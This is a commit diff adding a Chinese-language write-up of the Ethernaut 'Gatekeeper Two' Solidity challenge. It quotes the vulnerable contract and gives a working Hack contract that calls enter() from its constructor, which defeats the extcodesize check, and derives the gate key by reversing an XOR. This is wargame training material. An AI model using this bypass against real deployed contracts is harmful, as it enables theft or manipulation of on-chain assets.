

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/wargames/ethernaut.md, in a window 1280 px wide and 1400 px high, scrolled down 21686 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 22031 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ethernaut 14

````diff
--- a/docs/wargames/ethernaut.md
+++ b/docs/wargames/ethernaut.md
@@ -1011,3 +1011,88 @@ contract Hack {
 
 - [Solidity variables — storage, type conversions and accessing private variables](https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183)
 - [solidity - Why does Remix's jsVM show incorrect gas? - Ethereum Stack Exchange](https://ethereum.stackexchange.com/questions/84670/why-does-remixs-jsvm-show-incorrect-gas)
+
+## 14. Gatekeeper Two
+
+通过新的挑战！
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+contract GatekeeperTwo {
+
+  address public entrant;
+
+  modifier gateOne() {
+    require(msg.sender != tx.origin);
+    _;
+  }
+
+  modifier gateTwo() {
+    uint x;
+    assembly { x := extcodesize(caller()) } // 内联汇编
+    // caller() - call sender (excluding delegatecall)
+    // extcodesize(a) - size of the code at address a
+    require(x == 0);
+    _;
+  }
+
+  modifier gateThree(bytes8 _gateKey) {
+    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
+    _;
+  }
+
+  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
+    entrant = tx.origin;
+    return true;
+  }
+}
+```
+
+- `gateTwo` 需要调用合约的代码长度为 0，与解题矛盾。[ETHEREUM: A SECURE DECENTRALISED GENERALISED TRANSACTION LEDGER](https://ethereum.github.io/yellowpaper/paper.pdf) 中提到，在代码初始化时，对应地址的 `EXTCODESIZE` 应返回 0，那么只需要在构造函数里调用 `enter` 就可以了
+- 至于 `gateThree`，使用异或逆运算求解就好啦
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+contract GatekeeperTwo {
+
+  address public entrant;
+
+  modifier gateOne() {
+    require(msg.sender != tx.origin);
+    _;
+  }
+
+  modifier gateTwo() {
+    uint x;
+    assembly { x := extcodesize(caller()) }
+    require(x == 0);
+    _;
+  }
+
+  modifier gateThree(bytes8 _gateKey) {
+    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
+    _;
+  }
+
+  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
+    entrant = tx.origin;
+    return true;
+  }
+}
+
+contract Hack {
+
+  constructor(address instance) public {
+    GatekeeperTwo gk = GatekeeperTwo(instance);
+    gk.enter(bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1)));
+  }
+}
+```
+
+### 参考资料
+
+[Inline Assembly](https://docs.soliditylang.org/en/v0.6.0/assembly.html#inline-assembly)
````
